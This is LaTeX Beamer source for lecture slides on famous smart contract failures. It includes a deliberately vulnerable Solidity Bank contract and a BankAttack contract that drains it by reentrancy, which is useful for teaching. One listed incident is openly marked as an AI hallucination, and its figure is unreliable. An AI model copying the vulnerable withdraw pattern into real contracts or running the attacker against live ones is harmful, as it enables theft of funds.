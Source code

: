 \begin{frame}{Famous Smart Contract Failures}
    \begin{itemize}
        \item The reentrancy attack led to hundreds of millions of dollars in losses
        \item Ethereum fork in 2016 to change the code and rewrite history
        \item DAO Hack 2016 \$60 million
        \item [Codeium hallucination!] OpenZeppelin 2019 \$100 million 
        \item Grim Finance 2021 \$30 million
        \item DFORECE Apr 2020 \$24 million
    \end{itemize}
\end{frame}

\begin{frame}{DAO Hack 2016}
    \begin{itemize}
        \item Seized 5.2 percent of ETH
        \item Required a fork of Ethereum to "fix"
        \item While the outcome may be good, effectively Ethereum is governed by an oligopoly of programmers?
        \item No court of law decides what will happen 
    \end{itemize}
\end{frame}

\begin{frame}[fragile]{Example of Reentrancy Attack}
\begin{lstlisting}
contract Bank {
  mapping (address => uint) public balances;

  function deposit() public payable{
    require(msg.value > 0, "funds needed to set balance");
    balances[msg.sender] += msg.value;
  }

  function withdraw() public {
    require(balances[msg.sender] > 0, "insufficient balance");
    (bool success, ) = msg.sender.call{value: balances[msg.sender]}("");
    require(success, "transfer failed");
    balances[msg.sender] = 0;
  }
}
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Reentrancy Attack}
\url{https://www.infuy.com/blog/preventing-re-entrancy-attacks-in-solidity/}
contract BankAttack {
  Bank bank;

  function setBankContract(address bankContract) public {
    bank = Bank(bankContract);
  }

  fallback () external payable {
    if (address(bank).balance >= 1 ether){
      bank.withdraw();
    }
  }

  function attack() external payable {
    require(msg.value == 1 ether);
    bank.deposit{value: 1 ether}();
    bank.withdraw();
  }
}
\end{frame}

